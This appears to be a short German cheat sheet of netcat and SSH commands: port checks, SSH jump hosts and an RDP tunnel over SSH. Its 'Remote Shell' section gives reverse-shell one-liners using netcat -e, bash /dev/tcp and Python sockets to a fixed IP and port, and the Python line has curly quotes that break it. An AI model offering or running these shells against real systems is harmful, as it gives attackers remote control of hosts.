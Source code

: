 .. _nc_allg:

################
Netcat
################

Port offen:
============
nc -zv <host> <port>


Remote Shell
==============
Target Host: nc -lvp <port>
Source Host: 
* nc <target-ip> <port> -e /bin/bash

Alternativ via Bourne Shell auf dem target host:
Auf dem Target: bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Alternativ via Python auf dem target host:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);''


SSH
=====

Jumphost
---------

ssh über zwei Jumphosts:
    ssh -A -J <user@jmp1host>,<user@jmp2host> <user>@<zielhost>
    
    oder .ssh/config
    Host <zielhost>
        ProxyJump <user@jmp1host>,<user@jmp2host> <user>@<zielhost>

    dann mit <user>@<zielhost> anmelden

Windows RDP über ssh
---------------------
ssh -L 9999:<windows terminalserver>:3389 -N <user>g@<linux jumphost>
